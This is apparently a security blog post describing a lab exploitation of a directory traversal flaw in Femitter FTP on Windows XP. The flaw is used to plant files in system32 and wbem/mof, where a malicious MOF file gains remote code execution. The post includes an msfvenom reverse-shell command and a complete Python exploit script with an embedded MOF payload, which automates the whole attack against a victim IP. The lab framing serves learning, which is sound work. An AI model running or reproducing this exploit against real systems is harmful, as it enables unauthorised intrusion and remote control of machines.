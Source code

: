 ```yaml
---
layout: single
title: Exploiting Femitter FTP in a Post-Dropzone World
date: 2019-2-16
classes: wide
header:
  teaser: /assets/images/Femitter/fem.png
tags:
  - Femitter
  - Directory Transversal
  - DropZone
  - MOF
  - FTP
  - Windows XP
  - RCE
  - hackthebox.eu
--- 
```

  
  After watching [Ippsec's walkthrough for Dropzone](https://www.youtube.com/watch?v=QzP5nUEhZeg&t=1743s) on [hackthebox.eu](https://hackthebox.eu), I was pretty amazed that you could get code execution on Windows XP with just write privileges. If you have not seen the walkthrough yet, I highly encourage you watch it. He goes over MOF files, Stuxnet, MSF's interactive Ruby shell, etc. 

  In the walkthrough, he uses TFTP to upload an executable to the victim's System32 directory and then uploads a malicious MOF file to the System32/wbem/mof directory which runs the executable. I had to try this for myself! I started thinking about potential XP lab setups and settled on Femitter FTP as it allows for directory transversal. Typically, this vulnerability is used for enumeration and file reading, but if there was a way to use the directory transversal to write to directories of interest, we could potentially replicate what Ippsec had done on Dropzone and get code execution. 

### Getting Femitter FTP Up and Running
  The Femitter installer can be downloaded [here](http://acritum.com/fem) and about half-way down the page there is a link to 'Download the latest version.' Once placed on your XP VM, simply run the installer with all default configurations and it will place a folder called 'Femitter' in your 'Program Files' directory. Navigate to the Femitter folder and run the exe. Click on the 'FTP Server' tab and select 'Start.' Check that your VM is now running the FTP server on port 21 with a simple nmap scan.
  
### Quest for RCE
  By default, Femitter will allow anonymous authentication and will drop an authenticated user into the C:/Program Files/Femitter/Shared directory which is not writable. After changing to the 'Upload' directory, which is writable we are able to place files onto the remote box. Let's first test the well-documented directory transversal vulnerability which can be found on Exploit DB [here](https://www.exploit-db.com/exploits/15445). 

![](/assets/images/Femitter/fem_dirTransverse.png)

  Ok awesome, the exploit from nearly 10 years ago still works, this is ground breaking stuff here ;). After trying a bunch of different ways to directly upload files to directories of interest, I was only able to find 2 ways with the Linux FTP client. The first stipulation I found was that your working directory on the FTP server has to be writable. You cannot, for instance PUT a file and specify a destination path like `../../../../windows/system32/example.exe` without first making sure the working directory is writable. As long as the working directory is writable there are at least a couple of ways to get the files where we want them. The first way is to PUT the file and then specify the destination path like I already said.

![](/assets/images/Femitter/putSystem32.png)

The second way, is to PUT the file and then rename the file specifying it's full path. 

![](/assets/images/Femitter/putRename.png)

Now we have everything we need to get code execution since we can use the directory transversal to put files where we want them. I just used `msfvenom` to create my executable with `msfvenom -p windows/shell_reverse_tcp lhost=<yourIP> lport=443 -f exe -o zzzzz.exe` and I had already created a malicious MOF file following along with Ippsec's walkthrough (again, watch his walkthrough.) Set up your listener before you rename or put the MOF file in `/wbem/mof` as this is the action which runs our zzzzz.exe reverse shell. 

![](/assets/images/Femitter/putMOF.png)

![](/assets/images/Femitter/shellCatch.png)

Awesome!

### Scripting the Process for Fun

```python
#!/usr/bin/python

#This script is designed to take advantage of a directory transversal vulnerability in Femitter FTP Server <= 1.04;
#Tested on XP Professional x86;
#You will need to set up a listener to catch the reverse shell;
#You might also need to manually hardcode the ftp.cwd() command that is commented out below to a writable directory if Femitter is not in default configuration;
#Inspired by Ippsec's DropZone walkthrough & HackTheBox.eu

#1. creates an MSF payload;
#2. creates a MOF payload;
#3. uploads both payloads to writable dir;
#4. renames them to place them in system32 and system32/wbem/mof/ respectively;

import os
import sys
from ftplib import FTP

if len(sys.argv) != 3:
    print("Usage: femitter.py lhost lport\nExample: femitter.py 10.10.10.10 443")
    exit()
else:
    lhost = sys.argv[1]
    lport = sys.argv[2]

command = "msfvenom -p windows/shell_reverse_tcp lhost=" + lhost + " lport=" + lport + " -f exe --platform windows -a x86 -o zzzzz.exe >/dev/null 2>&1"


print('[+] creating msfvenom payload...' + '\r') 
os.system(command)

#creating our hardcoded MOF payload, thanks to ippsec
print('[+] creating MOF payload...' + '\r')
mof_file = open("exploit.MOF", "w")
mof_file.write("""#pragma namespace("\\\\\\\\.\\\\root\\\\cimv2")
class MyClass54266
{
  	[key] string Name;
};
class ActiveScriptEventConsumer : __EventConsumer
{
 	[key] string Name;
  	[not_null] string ScriptingEngine;
  	string ScriptFileName;
  	[template] string ScriptText;
  uint32 KillTimeout;
};
instance of __Win32Provider as $P
{
    Name  = "ActiveScriptEventConsumer";
    CLSID = "{266c72e7-62e8-11d1-ad89-00c04fd8fdff}";
    PerUserInitialization = TRUE;
};

instance of __EventConsumerProviderRegistration
{
  Provider = $P;
  ConsumerClassNames = {"ActiveScriptEventConsumer"};
};

Instance of ActiveScriptEventConsumer as $cons
{
  Name = "ASEC";
  ScriptingEngine = "JScript";
  ScriptText = "\\ntry {var s = new ActiveXObject(\\"Wscript.Shell\\");\\ns.Run(\\"zzzzz.exe\\");} catch (err) {};\\nsv = GetObject(\\"winmgmts:root\\\\\\\\cimv2\\");try {sv.Delete(\\"MyClass54266\\");} catch (err) {};try {sv.Delete(\\"__EventFilter.Name='instfilt'\\");} catch (err) {};try {sv.Delete(\\"ActiveScriptEventConsumer.Name='ASEC'\\");} catch(err) {};";

};

instance of __EventFilter as $Filt
{
  Name = "instfilt";
  Query = "SELECT * FROM __InstanceCreationEvent WHERE TargetInstance.__class = \\"MyClass54266\\"";
  QueryLanguage = "WQL";
};

instance of __FilterToConsumerBinding as $bind
{
  Consumer = $cons;
  Filter = $Filt;
};

instance of MyClass54266 as $MyClass
{
  Name = "ClassConsumer";
};

""")
mof_file.close()

victimIP = str(raw_input("[!] enter the victim IP: "))
username = str(raw_input("[!] enter Femitter FTP username: "))
password = str(raw_input("[!] enter Femitter FTP password: "))

#login to ftp server, change directories, upload our msfvenom payload, upload our .MOF payload, catch reverse-shell
print('[+] authenticating to Femitter server...')
try:
	ftp = FTP(victimIP)
	ftp.login(username,password)
except:
	print('[-] unable to connect to server')
try:	
	print('[+] uploading payloads...')
	ftp.cwd('Upload')
	#ftp.cwd('writable filepath') <--Change this if femitter is not in default config!! 
	ftp.storbinary('STOR zzzzz.exe', open('zzzzz.exe', 'rb'))
	ftp.storbinary('STOR exploit.MOF', open('exploit.MOF', 'rb'))
except:
	print('[-] unable to upload payloads, non-default configuration?')
try:	
	print('[+] executing payloads...')
	ftp.rename('zzzzz.exe', '../../../../../../windows/system32/zzzzz.exe')
	ftp.rename('exploit.MOF', '../../../../../../windows/system32/wbem/mof/exploit.MOF')
	ftp.quit()
	print('[+] enjoy that shell ;)')
except:
	print('[-] unable to execute payloads')
```



  

  
